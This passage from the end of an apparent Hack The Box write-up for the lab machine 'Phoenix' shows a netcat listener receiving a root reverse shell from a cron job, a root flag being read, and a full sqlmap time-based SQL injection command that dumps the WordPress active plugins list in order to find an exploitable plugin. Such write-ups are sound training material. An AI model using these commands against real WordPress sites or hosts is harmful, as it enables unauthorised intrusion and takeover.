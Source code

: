 
The next time the cron runs (every three minutes), I get a reverse shell:

    
    
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.149 35844
    bash: cannot set terminal process group (3403): Inappropriate ioctl for device
    bash: no job control in this shell
    root@phoenix:/backups#
    

And after a quick shell upgrade, I can grab `root.txt`:

    
    
    root@phoenix:~# cat root.txt
    5047bc59************************
    

## Beyond Root - Alternative Path

The entire foothold step for this box relies on getting into WordPress so that
I can see the vulnerable plugin and use it to get RCE. And while the intended
path is to use the SQL injection to get the credentials and secrets necessary
to log in, it’s also possible to just read the plugins list from the database:

    
    
    oxdf@hacky$ sqlmap --url "https://phoenix.htb/forum/?subscribe_topic=*" --dbms=mysql --technique=T --level 5 -D wordpress -T wp_options -C option_value --where "option_name = '
    active_plugins'" --dump --batch
    ...[snip]...
    Database: wordpress
    Table: wp_options
    [1 entry]
    +------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
    | option_value|
    +------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
    | a:9:{i:0;s:45:"accordion-slider-gallery/accordion-slider.php";i:1;s:25:"adminimize/adminimize.php";i:2;s:31:"asgaros-forum/asgaros-forum.php";i:3;s:43:"download-from-files/download-from-files.php";i:4;s:67:"miniorange-2-factor-authentication/miniorange_2_factor_settings.php";i:5;s:47:"photo-gallery-builder/photo-gallery-builder.php";i:6;s:29:"pie-register/pie-register.php";i:7;s:45:"simple-local-avatars/simple-local-avatars.php";i:8;s:38:"timeline-event-history/timeline-wp.php";} |
    +------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
    

With this list, it’s possible see the `download-from-files` is installed, and
find the public exploit, skipping the hash crack and the 2FA computation.

[](/2022/06/25/htb-phoenix.html)

